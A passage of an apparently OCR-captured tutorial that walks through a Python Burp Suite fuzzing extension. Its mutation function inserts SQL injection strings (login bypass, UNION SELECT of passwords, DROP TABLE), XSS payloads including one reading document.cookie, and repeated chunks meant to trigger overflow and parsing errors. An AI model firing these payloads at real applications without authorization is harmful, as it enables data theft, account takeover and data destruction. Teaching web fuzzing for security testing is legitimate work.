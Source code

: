 ```python
        return payload.encode('utf-8')
```
- **Converts the current payload into a string**.
- **Calls `mutate_payload()`** to modify the payload.
- **Encodes the modified payload back to bytes** for Burp Suite.

---

### **7️⃣ Resetting the Payload Generator**
```python
    def reset(self):
        self.num_payloads = 0
```
- **Resets** the payload count when needed.

---

### **8️⃣ Mutating the Payload (Fuzzing Techniques)**
```python
    def mutate_payload(self, original_payload):
        picker = random.randint(1, 3)
        offset = random.randint(0, len(original_payload) - 1)
        payload = original_payload[:offset]
```
- **Randomly selects a mutation type (`picker`)**.
- **Chooses an offset** in the payload to modify.

#### **🔹 SQL Injection (SQLi) Mutation**
```python
        if picker == 1:  # SQL Injection Mutation
            payload += random.choice([
                "' OR '1'='1",
                "' OR 'x'='x",
                "' UNION SELECT username, password FROM users --",
                "'; DROP TABLE users; --"
            ])
```
- **Inserts SQLi attack strings** at a random position.
- Targets **authentication bypass** and **database extraction**.

#### **🔹 Cross-Site Scripting (XSS) Mutation**
```python
        elif picker == 2:  # XSS Mutation
            payload += random.choice([
                "<script>alert('Hacked!');</script>",
                "<img src='x' onerror=alert(1)>",
                '"><svg/onload=alert(document.cookie)>'
            ])
```
- **Injects JavaScript to test for XSS vulnerabilities**.
- Targets **alert pop-ups, cookies stealing, and event-based XSS**.

#### **🔹 Payload Repetition Attack**
```python
        elif picker == 3:  # Payload Repetition
            chunk_length = random.randint(2, max(2, len(original_payload) - offset))
            repeater = random.randint(2, 5)
            for _ in range(repeater):
                payload += original_payload[offset:offset + chunk_length]
```
- **Repeats a section of the original payload**.
- Useful for **buffer overflow** and **parsing attacks**.

---